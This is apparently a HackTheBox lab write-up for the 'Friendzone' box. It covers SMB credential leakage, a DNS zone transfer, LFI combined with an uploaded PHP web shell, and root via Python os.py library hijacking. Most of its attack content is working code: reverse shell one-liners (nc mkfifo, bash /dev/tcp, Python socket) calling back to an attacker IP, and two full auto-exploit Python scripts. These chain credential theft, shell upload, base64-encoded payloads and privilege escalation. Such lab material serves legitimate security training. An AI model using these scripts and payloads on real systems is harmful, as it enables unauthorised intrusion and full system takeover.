

This box was an Easy box from HackTheBox. It's OS is Linux. The entry point is with a web vulnerability which allow us to have a LFI, where we can upload a malicious PHP file on the server, and them get the RCE on the box. The root we get with a vulnerability called python path hijack, which we can hijack, and a script python running as root in a cron.

The exploit for this box is on the body of the post. Hope you enjoy!

# Diagram



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.123
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 445

We run some commands to enumerate the samba share in this box

```sh
smbclient -N -L //10.10.10.123
smbmap -H 10.10.10.123
```


We enumerate the general folder

```sh
smbclient -N //10.10.10.123/general
```

And found some creds


**admin:WORKWORKHhallelujah@#**

## Port 80 and 443

We try to open it on the browser


It seems to be a normal page

We add the friendzone.red on /etc/hosts


And on port 443 the result is different


We look at the source code and we found something


On the source code we found something interesting also


Seems that we need to perform some kind of attack on port 53

## Port 53

Let's perform a DNS reverse

```sh
dig axfr @10.10.10.123 friendzone.red
```


We found some new domains, but we can try with other domain also. So we add the domain **friendzoneportal.red** on /etc/hosts and try with that


```sh
dig axfr @10.10.10.123 friendzoneportal.red
```


We found the following domains

```
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red
admin.friendzoneportal.red
files.friendzoneportal.red
imports.friendzoneportal.red
vpn.friendzoneportal.red
```

## Subdomain Enumeration

We add all of them to /etc/hosts


We start a enumeration in this subdmomais we found. For that we use [aquatone](https://github.com/michenriksen/aquatone/releases)

```sh
cat hosts.txt | ./aquatone
```


We open the report to see better what is happening


And the resume is

```
Login Portal:
https://admin.friendzoneportal.red
https://administrator1.friendzone.red

Uploads:
https://uploads.friendzone.red
```

We get into the admin page, once we already have creds we got from the samba enumeration


And we get an interesting message on the page


Always when we see that we can pass files over the get request, possibly it's vulnerable to LFI. So let's send it to burp to test out

# LFI

Once on burp, we can start digging it out


And on [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#wrapper-phpfilter)

We found a way to read files on the server


And we read some files to understand how the server works... The main ideia here is to upload a php malicious file on the samba server, and then call it with the LFI we have... Giving remote code execution to us

# RCE

So, let's upload a malicious php file in the samba share

cmd.php
```php
<?php system($_REQUEST['cmd']); ?>
```

And the command we wil use

```sh
smbclient -N //10.10.10.123/Development -c 'put cmd.php cmd.php'
```


Done. We put the php file there, now we must need to get the RCE

```
https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/cmd&cmd=id
```


And now a reverse shell

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 443 >/tmp/f
```


Now let's easily automate it.

# Auto Reverse Shell

We'll use our skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is


friendzone_auto_pwn.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# HackTheBox - Friendzone Auto Pwn

import argparse
import requests
import sys
import urllib
from smb.SMBHandler import SMBHandler
import base64
import urllib.parse
import socket, telnetlib
from threading import Thread
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Function to get the user and password
def SambaRead(rhost):
    opener = urllib.request.build_opener(SMBHandler)
    fh = opener.open('smb://%s/general/creds.txt' %rhost)
    global creds
    creds = fh.read().decode().splitlines()[2]
    print("[+] The creds for the site is: %s ! [+]" %creds)
    fh.close()

# Login on the website
def LoginWeb(rhost,creds):
    print("[+] Now, let's login with the creds ! [+]")
    url = "https://administrator1.friendzone.red:443/login.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = creds.split(":")[1]
    data = {"username": "admin", "password": "%s" %password}
    r.post(url, headers=headers, data=data, verify=False, proxies=proxies)
    print("[+] Logged In !! [+]")
    
# Function to upload the malicious php file
def SambaUpload(rhost):
    print("[+] Let's upload the malicious file !! [+]")
    file_fh = open('cmd.php', 'rb')
    director = urllib.request.build_opener(SMBHandler)
    fh = director.open('smb://%s/Development/cmd.php' %rhost, data = file_fh)
    fh.close()
    print("[+] Done ! [+]")
    
# Function to get the reverse shell
def getReverse(lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/cmd"
    r.get(url, params=payload_str, proxies=proxies, verify=False, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Get the password for the web interface
    SambaRead(rhost)
    # Login in it
    LoginWeb(rhost,creds)
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Upload Malicious php
    SambaUpload(rhost)
    # Get RCE
    getReverse(lhost,lport)
    
if __name__ == '__main__':
    main()
```

# www-data --> Root

Now, let's get root in this box.

We upload the [pspy](https://github.com/DominicBreuker/pspy/releases)


We execute it and see a file called reporter.py is being execute as root in this server


We execute the [linpeas](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F253%2Fmerge/linpeas.sh) in this server also


We see that we can write to the os.py file, library which the reporter.py script call, so if we put a reverse shell in it, it'll execute as root!

## Python Path Hijack

The attack we will perform here is called python path hijack, it's very well described in [this](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/) post.

First we need to see what is the path from what the python look for libraries

```sh
python -c 'import sys; print "\n".join(sys.path)'
```


The first blank line indicates that it looks first for the path of the script. If we put a python file called os.py in the same folder of the script, it'll execute when the reporter.py import the os library.

We cannot write in the same folder


But we can write on the os.py


So, let's get root in it

We add our call in the end of the os.py script

```py
import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")
```


And after some minutes, we get the root shell


Now, let's automate everything

# Root Auto Pwn

And, here it is


root_friendzone_pwn.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# HackTheBox - Friendzone Auto Pwn

import argparse
import requests
import sys
import urllib
from smb.SMBHandler import SMBHandler
import base64
import urllib.parse
from threading import Thread
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from pwn import *
import base64

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# b64 Things
def b64e(s):
    return base64.b64encode(s.encode()).decode()
    
# Handler www-data which will be opened in thread
def FirstHandler(lport,lhost):
    www = listen(lport).wait_for_connection()
    lport = int(lport) + 1
    payload = "import os;os.system(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f\")\n" %(lhost,lport)
    #payload = "import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"%s\",%s));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/bash\")\n" %(lhost,lport)
    payload = b64e(payload).encode()
    www.send(b"echo %s | base64 -d >> /usr/lib/python2.7/os.py" %(payload))
    www.send(b"\n")
    www.close()
    
# Handler root which will be opened in thread
def RootHandler(lport):
    root = listen(lport).wait_for_connection()
    root.interactive()

# Function to get the user and password
def SambaRead(rhost):
    opener = urllib.request.build_opener(SMBHandler)
    fh = opener.open('smb://%s/general/creds.txt' %rhost)
    global creds
    creds = fh.read().decode().splitlines()[2]
    print("[+] The creds for the site is: %s ! [+]" %creds)
    fh.close()

# Login on the website
def LoginWeb(rhost,creds):
    print("[+] Now, let's login with the creds ! [+]")
    url = "https://administrator1.friendzone.red:443/login.php"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    password = creds.split(":")[1]
    data = {"username": "admin", "password": "%s" %password}
    r.post(url, headers=headers, data=data, verify=False, proxies=proxies)
    print("[+] Logged In !! [+]")
    
# Function to upload the malicious php file
def SambaUpload(rhost):
    print("[+] Let's upload the malicious file !! [+]")
    file_fh = open('cmd.php', 'rb')
    director = urllib.request.build_opener(SMBHandler)
    fh = director.open('smb://%s/Development/cmd.php' %rhost, data = file_fh)
    fh.close()
    print("[+] Done ! [+]")
    
# Function to get the reverse shell
def getReverse(lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/cmd"
    r.get(url, params=payload_str, proxies=proxies, verify=False, cookies=r.cookies)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.localport

    '''Here we call the functions'''
    # Get the password for the web interface
    SambaRead(rhost)
    # Login in it
    LoginWeb(rhost,creds)
    # Set Up the First Handler
    thr = Thread(target=FirstHandler,args=(int(lport),lhost,))
    thr.start()
    # Upload Malicious php
    SambaUpload(rhost)
    # Get RCE
    getReverse(lhost,lport)
    # Set Up the  Root Handler
    lport = int(lport) + 1
    RootHandler(lport)
    
if __name__ == '__main__':
    main()
```